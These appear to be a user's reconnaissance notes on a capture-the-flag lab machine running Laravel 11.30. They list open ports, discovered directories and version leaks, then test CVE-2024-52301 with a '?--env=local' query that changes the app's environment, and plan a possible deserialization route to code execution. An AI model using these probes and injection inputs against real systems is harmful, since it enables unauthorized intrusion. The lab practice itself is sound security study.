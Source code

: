 Nmap: TCP 22,80

Gobuster:
```
/build => Forbidden
/login
/robots.txt
/mailing
/storage => Forbidden
/up
/upload
/vendor => Forbidden
```

/mailing => gives a error message with some infos
```
PHP 8.2.28 — Laravel 11.30.0
Symfony
=> Only POST request allowed
```

/up
```
http://environment.htb/up/


## Application up

HTTP request received. Response successfully rendered in 32ms.
```

/upload
```
=> Only POST request allowed
```

Searching for vulnerabilities for Laravel 11.30:
- CVE-2024-52301

https://github.com/Nyamort/CVE-2024-52301 explains the vulnerability:
```
http://environment.htb/?--env=local
```
=> Footer changes from
```
environment.htb © 2025 | Production v1.1

to

environment.htb © 2025 | Local v1.1
```

Exploit?
```
https://github.com/nanwinata/CVE-2024-52301/blob/main/exploit.sh
```
=> nope

TODO: Try to set `APP_KEY` via vulnerability and PHP insecure deserialization of session cookie for RCE?